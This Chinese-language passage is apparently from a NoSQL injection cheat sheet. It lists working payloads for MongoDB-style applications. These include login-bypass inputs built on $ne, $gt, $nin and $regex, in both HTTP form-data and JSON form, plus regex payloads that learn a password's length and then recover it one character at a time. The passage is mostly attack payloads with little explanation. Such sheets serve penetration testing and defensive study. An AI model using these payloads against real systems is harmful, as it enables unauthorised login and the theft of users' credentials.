 攻击者可以注入一个 NoSQL 查询：`{ "$gt": 0 }`。

```js
db.products.find({ "price": { "$gt": 0 } })
```

这不会返回特定的产品，而是返回所有价格大于零的产品，泄露数据。

### 绕过身份验证

使用不等于 (`$ne`) 或大于 (`$gt`) 的基本身份验证绕过

* HTTP 数据

  ```ps1
  username[$ne]=toto&password[$ne]=toto
  login[$regex]=a.*&pass[$ne]=lol
  login[$gt]=admin&login[$lt]=test&pass[$ne]=1
  login[$nin][]=admin&login[$nin][]=test&pass[$ne]=toto
  ```

* JSON 数据

  ```json
  {"username": {"$ne": null}, "password": {"$ne": null}}
  {"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
  {"username": {"$gt": undefined}, "password": {"$gt": undefined}}
  {"username": {"$gt":""}, "password": {"$gt":""}}
  ```

### 提取长度信息

使用 `$regex` 操作符注入负载。当长度正确时，注入将起作用。

```ps1
username[$ne]=toto&password[$regex]=.{1}
username[$ne]=toto&password[$regex]=.{3}
```

### 提取数据信息

使用 "`$regex`" 查询操作符提取数据。

* HTTP 数据

  ```ps1
  username[$ne]=toto&password[$regex]=m.{2}
  username[$ne]=toto&password[$regex]=md.{1}
  username[$ne]=toto&password[$regex]=mdp

  username[$ne]=toto&password[$regex]=m.*
  username[$ne]=toto&password[$regex]=md.*
  ```

* JSON 数据

  ```json
  {"username": {"$eq": "admin"}, "password": {"$regex": "^m" }}
  {"username": {"$eq": "admin"}, "password": {"$regex": "^md" }}
  {"username": {"$eq": "admin"}, "password": {"$regex": "^mdp" }}
  ```
